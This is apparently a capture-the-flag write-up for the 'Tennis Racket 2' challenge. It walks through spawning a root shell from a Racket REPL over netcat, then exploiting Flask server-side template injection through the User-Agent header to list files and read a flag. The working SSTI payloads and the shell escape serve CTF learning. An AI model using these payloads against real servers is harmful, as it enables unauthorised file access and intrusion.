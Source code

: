 # Tennis Racket 2

## Preface

This challenge consists of 2 parts. First being, getting the flag file and second, exploiting an internal webserver.

## Challenge
I just found out my CS Prof is going to be teaching us Python next semester! Lets see if I can find anything useful for next semester on his computer too...

`nc tennis2.nypinfsecctf.tk 8011`

## Solution

1. Connect to the server via netcat

`nc tennis2.nypinfsecctf.tk 8011`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@fd5a5457d0f5:/# ls -la

total 60
drwxr-xr-x   1 root root 4096 May  5 23:16 .
drwxr-xr-x   1 root root 4096 May  5 23:16 ..
-rwxr-xr-x   1 root root    0 May  5 23:16 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  5 23:16 etc
-rw-r--r--   1 root root  183 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 298 root root    0 May  7 12:16 proc
drwx------   1 root root 4096 May  4 12:07 root
drwxr-xr-x   1 root root 4096 May  4 12:06 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
drwxrwxrwt   1 root root 4096 May  4 12:07 tmp
drwxr-xr-x   1 root root 4096 May  4 12:06 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@fd5a5457d0f5:/# cat flag

TODO List:
1. Grade Racket Assignments
2. Test out new website at http://tennisracket2-grade-bot:5000
3. Chase students for tuition fee
4. Mend my broken relationship with my daughter
```

*It doesn't look right...* **Let's try the webserver**

5. Connect to the webserver

```bash
root@fd5a5457d0f5:/# curl http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
curl/7.68.0
```

**Notice that we used `curl` and it returned our `User-Agent`.**

6. Find out the server type

```bash
root@fd5a5457d0f5:/# curl -I http://tennisracket2-grade-bot:5000

HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.9.12
Date: Sat, 07 May 2022 19:51:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 135
Connection: close
```

7. Most popular webserver is Flask. Time to list files

```bash
curl -A "{{url_for.__globals__.os.__dict__.listdir('./')}}" http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
[&#39;flag&#39;, &#39;app.py&#39;]
```

8. We found the flag

```bash
curl -A "{{url_for.__globals__.__builtins__.open('flag').read()}}" http://tennisracket2-grade-bot:5000

<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
NYP{r5ck3t_fl5sk_sst1}
```

## Ending Note

Flask has many other methods for linking into `__globals__` space. `url_for` is one of them.